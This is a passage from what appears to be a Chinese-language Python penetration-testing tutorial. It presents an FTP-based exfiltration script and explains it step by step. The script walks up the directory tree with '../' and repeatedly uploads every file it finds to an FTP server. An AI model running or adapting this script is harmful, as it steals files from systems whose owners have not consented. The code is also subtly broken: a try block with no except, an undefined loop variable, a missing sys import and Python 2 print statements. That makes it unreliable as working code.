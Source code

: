 ```py
  print files

  for f in files:
    try:
      fiile = open(f, 'rb')
      ftp.storbinary('STOR ftpfiles/00'+str(f), fiile)
      fiile.close()
    else:
      pass

  if filescheck == files:
    break
  else:
    filescheck = files
    loop = loop+1
    time.sleep(10)
ftp.close()
```

## 它是如何工作的...

像往常一样，我们导入我们的库并设置我们的变量。我们已将用户名和密码设置为`sys.argv`，以避免硬编码，从而暴露我们的系统：

```py
from ftplib import FTP
import time
import os

user = sys.argv[1]
pw = sys.argv[2]
```

然后我们使用 IP 地址和通过标志设置的凭据连接到我们的 FTP。您还可以将 IP 作为`sys.argv`传递，以避免硬编码：

```py
ftp = FTP("127.0.0.1", user, pw)
```

我设置了一个 nonce 值，它与目录检查方法的第一个目录不匹配。我们还将循环设置为`0`，并将"上一个目录"命令配置为一个变量，类似于第三章中的目录遍历脚本，*漏洞识别*：

```py
filescheck = "aa"

loop = 0
up = "../"
```

然后我们创建我们的主循环以永远重复并创建我们选择的目录调用。我们列出我们调用的目录中的文件并将其分配给一个变量。您可以选择在这里打印文件列表，如我所做的那样，以进行诊断目的，但这没有任何区别：

```py
while 1:
  files = os.listdir("./"+(i*up))
  print files
```
